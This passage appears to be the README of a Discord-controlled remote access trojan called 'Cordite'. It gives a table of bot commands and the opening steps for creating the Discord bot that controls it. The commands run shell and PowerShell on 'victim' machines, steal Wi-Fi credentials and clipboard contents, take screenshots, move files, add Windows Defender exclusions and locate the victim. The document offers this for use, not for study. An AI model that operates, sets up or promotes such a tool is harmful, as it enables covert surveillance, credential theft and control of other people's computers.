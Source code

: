 | Command | Description |
|---------|-------------|
| `/runcmd agentId:1234 task:'whoami'` | Executes a shell command on the target system. |
| `/runcmd-all task:'whoami'` | Executes a shell command on all connected agents. |
| `/download agentId:1234 file:'C:\\windows\\tasks\\test.txt'` | Downloads a specified file from the target machine. |
| `/screenshot agentId:1234` | Captures a screenshot of the victim's screen. |
| `/wifi agentId:1234` | Retrieves saved Wi-Fi credentials. |
| `/upload agentId:1234 destination:'C:\\windows\\tasks\\test.txt'` | Uploads a file to the victim's machine. |
| `/cd agentId:1234 directory:'C:\\'` | Changes the working directory. |
| `/dir agentId:1234` | Lists files in the current directory. |
| `/clipboard agentId:1234` | Retrieves clipboard contents. |
| `/applications agentId:1234` | Lists installed applications. |
| `/sysinfo agentId:1234` | Collects system information. |
| `/ps agentId:1234 option:'all' or 'apps'` | Lists running processes. |
| `/re-register agentId:1234`| Re-register all commands in a beacon in case the agent field is out of sync. |
| `/clean-dead agentId:1234` | Removes dead agents from the beacon chanel. |
| `/defender-exclusion agentId:1234 path:'C:\\'` | Adds a specified path to Windows Defender exclusions. |
| `/powershell agentId:1234 command:'whoami'` | Executes a PowerShell command on the target system. |
| `/kill agentId:1234 process:'notepad.exe'` | Terminates a specified process. |
| `/location agentId:1234` | Retrieves the victim's approximate location. |

---

## Installation - Windows

### Set Up the Discord Bot

#### Create the Bot:

- Visit the [Discord Developer Portal](https://discord.com/developers/applications).
- Click **New Application** in the top-right corner.
- Enter a name for your application (e.g., "Cordite") and click **Create**.

#### Obtain the Bot Token:

- Navigate to the **Bot** tab in the left sidebar.
- Click **Reset Token** if you need a new one, or click **Copy** to save the existing token securely.
